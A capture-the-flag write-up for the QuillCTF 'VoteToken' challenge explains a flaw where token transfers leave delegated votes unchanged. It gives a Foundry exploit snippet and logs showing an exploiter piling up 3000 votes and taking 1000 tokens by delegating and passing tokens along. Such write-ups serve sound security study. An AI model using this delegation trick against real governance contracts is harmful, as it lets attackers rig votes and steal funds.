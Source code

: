 # QuillCTF: VoteToken Exploit

- [Challenge](https://academy.quillaudits.com/challenges/quillctf-challenges/voting-machine)
- Contract: [VoteToken](../../src/QuillCTF/VoteToken.sol)
- Exploit: [VoteTokenExploit](../../test/QuillCTF/VoteTokenExploit.t.sol)

The objective of the CTF was to accumulate 3000 votes and to steal 1000 tokens from Alice. Thanks to a prior phishing attack, we got access to Alice, Bob and Carl accounts. Alice had 1000 tokens while the others had no tokens.

## Exploit

The flaw in this system is that when you transfer tokens between accounts, the delegated votes are not updated. Thus, if you manage to have access to an account with some tokens, you can simply delegate all the tokens to the exploiter and send the tokens to another user while keeping the delegated votes. Then you can repeat this process until you accumulated enough votes.

```java
vm.startPrank(alice);
console2.log('Alice delegates its tokens to the exploiter');
target.delegate(exploiter);

console2.log('Alice sends its tokens to Bob');
target.transfer(bob, 1000);
vm.stopPrank();

// The exploiter has now accumulated 1000 votes
// Repeat this process with other users...
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=VoteToken
Running 1 test for test/QuillCTF/VoteTokenExploit.t.sol:VoteTokenExploit
[PASS] testExploit() (gas: 277574)
Logs:
  
  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes     1000 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter     0 votes        0 tokens
  ----------------------------------------

  Alice delegates its tokens to the exploiter
  Alice sends its tokens to Bob
  
  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes     1000 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter  1000 votes        0 tokens
  ----------------------------------------

  Bob delegates its tokens to the exploiter
  Bob sends its tokens to Carl
  
  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes     1000 tokens
  🥷 Exploiter  2000 votes        0 tokens
  ----------------------------------------

  Carl delegates its tokens to the exploiter
  Carl sends its tokens the exploiter
  
  --------------- [STATS] ----------------
  🙍‍♀️ Alice         0 votes        0 tokens
  🙎‍♂️ Bob           0 votes        0 tokens
  🙎 Carl          0 votes        0 tokens
  🥷 Exploiter  3000 votes     1000 tokens
  ----------------------------------------


Test result: ok. 1 passed; 0 failed; finished in 1.65ms
```
